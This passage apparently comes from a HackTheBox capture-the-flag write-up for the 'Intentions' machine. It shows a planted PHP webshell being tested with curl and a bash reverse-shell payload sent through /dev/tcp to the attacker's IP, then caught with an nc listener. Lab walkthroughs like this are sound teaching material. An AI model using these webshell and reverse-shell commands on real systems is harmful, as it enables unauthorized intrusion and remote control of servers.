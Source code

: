 
I can use anything for `name`, as I just need PHP temporarily store it in `/tmp` before it realizes it’s not needed.

On sending, the request hangs for a second, and then returns a 502 Bad Gateway failure:

![image-20230915102458063](/img/image-20230915102458063.png)

This is a sign of success, as `0xdf.php` is there:

```

oxdf@hacky$ curl http://10.10.11.220/storage/0xdf.php?cmd=id
caption:uid=33(www-data) gid=33(www-data) groups=33(www-data)
 CAPTION 120x120 120x120+0+0 16-bit sRGB 2.070u 0:02.076

```

If there is something wrong with the request, the response looks like this:

```

HTTP/1.1 422 Unprocessable Content
Server: nginx/1.18.0 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Connection: close
Cache-Control: no-cache, private
Date: Thu, 12 Oct 2023 21:47:03 GMT
X-RateLimit-Limit: 3600
X-RateLimit-Remaining: 3599
Access-Control-Allow-Origin: *
Content-Length: 14

bad image path

```

I came across this several ways. One way this comes up is copying the POC from the blog, which comes with extra spaces in the payload and cause this result.

### Shell

To get a shell from the webshell, I’ll just send a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) payload. I’ll put it in the POST body (I used `$_REQUEST` to read `cmd` from either GET parameters or POST body):

```

oxdf@hacky$ curl http://10.10.11.220/storage/0xdf.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261"' 

```

This just hangs, but at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.220 43878
bash: cannot set terminal process group (1070): Inappropriate ioctl for device
bash: no job control in this shell
www-data@intentions:~/html/intentions/storage/app/public$

```
